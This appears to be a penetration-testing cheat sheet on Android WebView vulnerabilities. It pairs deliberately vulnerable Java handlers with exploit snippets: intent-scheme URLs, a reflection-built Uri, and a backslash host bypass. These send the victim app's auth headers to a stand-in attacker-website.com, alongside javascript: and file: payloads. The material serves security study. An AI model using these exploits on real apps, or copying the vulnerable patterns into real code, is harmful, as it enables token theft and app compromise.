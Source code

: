 [WebView](https://developer.android.com/reference/android/webkit/WebView) is a View that displays web pages. WebView objects display web content as part of an activity layout, but lack some of the features of fully-developed browsers.

# Access arbitrary components

The Intent class allows developers to convert an intent to a string holding a URI representation of it with the [toUri(flags)](https://developer.android.com/reference/android/content/Intent#toUri%28int%29) method and create an intent from this URI with the [parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) method. An app can use this to parse a URL with the `intent` scheme into intent and launch an activity while handling the URL within the WebView. If the handling is not implemented correctly, you can access arbitrary components of the app.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/intent-vulnerabilities#access-arbitrary-components" %}

Developers can override the [shouldOverrideUrlLoading()](https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading%28android.webkit.WebView,%20android.webkit.WebResourceRequest%29) method of the WebViewClient class to handle all efforts to load a new link within WebView. The example of mishandling might look as follows:

```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if ("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```

This code adds a custom handler for URLs with the `intent` scheme that launch a new activity using the passed URL. You can exploit this mishandling by creating a WebView and redirecting it to a specially crafted `intent-scheme` URL:

```java
// Intent-scheme URL creation
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://attacker-website.com/");
String url = intent.toUri(Intent.URI_INTENT_SCHEME);
// "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end"
Log.d("d", url);
```

```java
// AuthWebViewActivity
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```

```javascript
// Redirect within WebView
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end";
```

However, there are several restrictions:

- Intent embedded `Parcelable` and `Serializable` objects cannot be converted to string and these objects will be ignored.
- The [Intent.parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri%28java.lang.String,%20int%29) ignores the [Intent.FLAG_GRANT_READ_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION) and [Intent.FLAG_GRANT_WRITE_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_WRITE_URI_PERMISSION) flags by default. The parser leaves them only if the [Intent.URI_ALLOW_UNSAFE](https://developer.android.com/reference/android/content/Intent#URI_ALLOW_UNSAFE) flag is set.

    ```java
    startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE))
    ```

References:
- [Whitepaper – Attacking Android browsers via intent scheme URLs](https://www.mbsd.jp/Whitepaper/IntentScheme.pdf)

# addJavascriptInterface

[addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) method injects the supplied Java object into this WebView. The object is injected into all frames of the web page, including all the `iframes`, using the supplied name. This allows the Java object's methods to be accessed from JavaScript (the Java object's fields are not accessible).

This method can provide data to JavaScript or even allow JavaScript to controll the host application. For example, the following interface is leaking a user token:

```java
public class DefaultJavascriptInterface {
    Context context;

    public DefaultJavascriptInterface(Context c) {
        this.context = c;
    }

    @JavascriptInterface
    public getToken() {
        SharedPreferences sharedPref = context.getSharedPreferences(getString(
            R.string.preference_file_key), 
            Context.MODE_PRIVATE
        );
        return sharedPref.getString(getString(R.string.token_key), "")
    }
}
```

```java
public class DefaultActivity extends Activity {
    // ...

    public void loadWebView() {
        WebView webView = (WebView)findViewById(R.id.web_view);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.addJavascriptInterface(new DefaultJavascriptInterface(this), "DefaultJavascriptInterface")
        // ...
    }
}
```

```html
<script>
    alert("Token: " + DefaultJavascriptInterface.getToken());
</script>
```

References:
- [Report: [Grab Android/iOS] Insecure deeplink leads to sensitive information disclosure](https://hackerone.com/reports/401793)

# Bypass URL validation

## Abusing reflection

The [android.net.Uri](https://developer.android.com/reference/android/net/Uri) is an abstract class with a few internal subclasses, that allows you to build custom URI with arbitrary parts using `android.net.Uri$HierarchicalUri`.

Assume, an app implements the following validation:

```java
// AuthWebViewActivity 
Uri uri = getIntent().getData();
boolean isOurDomain = 
    "https".equals(uri.getScheme()) 
    && uri.getUserInfo() == null
    && "legitimate.com".equals(uri.getHost());
if (isOurDomain) {
    webView.load(uri.toString(), getAuthHeaders());
}
```

In this case, you can build a URL that will pass validation, but calling `uri.toString()` will return the attacker's website:

```java
Uri uri;
try {
    Class partClass = Class.forName("android.net.Uri$Part");
    Constructor partConstructor = partClass.getDeclaredConstructors()[0];
    partConstructor.setAccessible(true);

    Class pathPartClass = Class.forName("android.net.Uri$PathPart");
    Constructor pathPartConstructor = pathPartClass.getDeclaredConstructors()[0];
    pathPartConstructor.setAccessible(true);

    Class hierarchicalUriClass = Class.forName("android.net.Uri$HierarchicalUri");
    Constructor hierarchicalUriConstructor = hierarchicalUriClass.getDeclaredConstructors()[0];
    hierarchicalUriConstructor.setAccessible(true);

    Object authority = partConstructor.newInstance("legitimate.com", "legitimate.com");
    Object path = pathPartConstructor.newInstance("@attacker-website.com", "@attacker-website.com");
    uri = (Uri) hierarchicalUriConstructor.newInstance("https", authority, path, null, null);
    // uri.getScheme()   == https
    // uri.getUserInfo() == null
    // uri.getHost()     == legitimate.com
    // uri.toString()    == https://legitimate.com@attacker-website.com
}
catch (Exception e) {
    throw new RuntimeException(e);
}

Intent intent = new Intent();
intent.setData(uri);
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
startActivity(intent);
```

This is possible because a victim app does not parse URI itself and trusts the already parsed URI that it received from an untrusted source.

## Broken parser

The [android.net.Uri](https://developer.android.com/reference/android/net/Uri) does not recognize backslashes in the authority part (but `java.net.URI` throws an exception), this allows you to bypass a URL validation. For example, the vulnerable code can look as follows:

```java
Uri uri = Uri.parse(attackerControlledString);
if ("legitimate.com".equals(uri.getHost()) || uri.getHost().endsWith(".legitimate.com")) {
    webView.loadUrl(attackerControlledString, getAuthorizationHeaders());
    // or
    // webView.loadUrl(uri.toString());
}
```

In this case, you can bypass the restriction with backslashes:

```java
String url = "http://attacker-website.com\\\\@legitimate.com/path";
String host = Uri.parse(url).getHost();
// The "host" variable contains the "legitimate.com" value
Log.d("d", host);
// WebView loads the attacker-website.com
webView.loadUrl(url, getAuthorizationHeaders());
```

## Missing scheme validation

If an app does not validate the scheme value (but may validates the host one) you can try to abuse this with with `javascript` and `file` schemes URLs:

```http
javascript://legitimate.com/%0aalert(1)//

file://legitimate.com/sdcard/payload.html
```

# setWebContentsDebuggingEnabled

[setWebContentsDebuggingEnabled](https://developer.android.com/reference/android/webkit/WebView.html#setWebContentsDebuggingEnabled%28boolean%29) enables debugging of web contents (HTML/CSS/JavaScript) loaded into any WebViews of an application. This flag is used in order to facilitate debugging of web layouts and JavaScript code running inside WebViews.

{% hint style="info" %}
`WebContentsDebugging` is not affected by the state of the `debuggable` flag in the application's manifest. 
{% endhint %}

Enabling this flag allows you to execute arbitrary JavaScript code within any WebViews of an application.

References:
- [Remote debugging WebViews](https://developer.chrome.com/docs/devtools/remote-debugging/webviews/)

# References

- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Golden techniques to bypass host validations in Android apps](https://hackerone.com/reports/431002)
